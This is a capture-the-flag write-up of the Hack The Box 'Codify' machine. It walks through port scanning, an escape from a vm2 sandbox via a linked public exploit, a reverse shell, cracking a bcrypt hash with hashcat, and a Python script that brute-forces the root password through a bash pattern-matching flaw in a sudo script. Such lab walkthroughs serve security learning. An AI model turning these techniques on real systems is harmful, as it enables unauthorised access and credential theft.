```yaml
---
slug: /write-up/htb/machines/easy/codify
pagination_next: null
pagination_prev: null
---
```


## Enumeration

```bash
curl 10.10.11.239                                                  
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://codify.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.239 Port 80</address>
</body></html>
```
Let's add the host to /etc/hosts

nmap reports several things opened:

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
```

The port 80 is a webserver that hosts a NodeJS editor to execute NodeJS in a sandboxed scenario.

Port 3000 looks the same.

The sandbox looks like it's using the vm2 library:
```
 The vm2 library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```
The sandbox has the following limitations: http://codify.htb/limitations

The editor works by sending a POST request with base64 content:

```
curl 'http://codify.htb/run' -X POST -H 'Referer: http://codify.htb/editor' -H 'Content-Type: application/json' -H 'Origin: http://codify.htb' --data-raw '{"code":"YQ=="}'
```
This request belongs to the code `a`:
```bash
└─$ echo YQ== | base64 -d
a
```

## Foothold

Look at Google for vm2 escape, found this payload: https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

Prepared the script a bit and got it, then send a reverse shell and we're in as `svc` user and then improve to a good shell.

Found the user `joshua` on /etc/passwd.

Checking the contents of the server, there's the `contact` folder which looks like an old nodejs app. It has a sqlite database which contains a users table with an entry for joshua. Let's try to crack the bcrypt hash stored there.

```bash
hashcat exfil/hash -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
```

Found the password for user `joshua`, now connect with SSH, and we're in and get can get the user flag.


## Privilege escalation

The user `joshua` can execute this command as root:

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

In that script, there's one `if` statement that checks the user input password with the credentials stored in one file:

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
```

The problem with that is, this if does not perform string comparison, it performs pattern matching. Which means that it `USER_PASS` is `*`, the if will pass. 

The pattern matching will work with any character, for instance let's say the password is `password`, if the user provides the password `p*` it will pass, so we can slowly bruce-force each character thanks to pattern matching with the following script:

```python
import string
import subprocess
import time

all_characters = list(string.ascii_letters + string.digits)
password = ""
while True:
    for char in all_characters:
        command = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed" in output:
            password += char
            print(password)
            time.sleep(1)
```

And found the password for root, now we can run `su` and provide that password and we got root access.